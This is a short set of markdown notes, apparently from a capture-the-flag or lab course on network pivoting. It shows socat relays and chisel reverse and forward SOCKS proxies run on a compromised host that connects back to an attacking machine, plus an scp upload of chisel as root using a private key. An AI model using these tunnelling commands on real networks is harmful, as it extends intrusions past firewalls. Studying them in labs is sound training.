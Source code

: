 ```bash
```

- chisel
```bash
scp -i ../../../id_rsa chisel_1.7.3_linux_amd64 root@10.200.81.200:/root/chiselhack

```

## Socat

- Use TCP port 8000 for the server listener, and do not background the process: 
`./socat tcp-l:8000 tcp:172.16.0.200:443`

- What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?
`./sockat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &`


## Chisel

### Reverse SOCKS Proxy
Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects back from a compromised server to a listener waiting on our attacking machine.

On our own attacking box we would use a command that looks something like this:
`./chisel server -p LISTEN_PORT --reverse &`

On the compromised host, we would use the following command:
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`

```
./chisel server -p 1337 --reverse &
./chisel client 10.50.73.2:1337 R:socks &
```

### Forward SOCKS Proxy:
Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:
`./chisel server -p LISTEN_PORT --socks5`

On our own attacking box we would then use:
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`


### Remote Port Forward:
A remote port forward is when we connect back from a compromised target to create the forward.

For a remote port forward, on our attacking machine we use the exact same command as before:
`./chisel server -p LISTEN_PORT --reverse &`
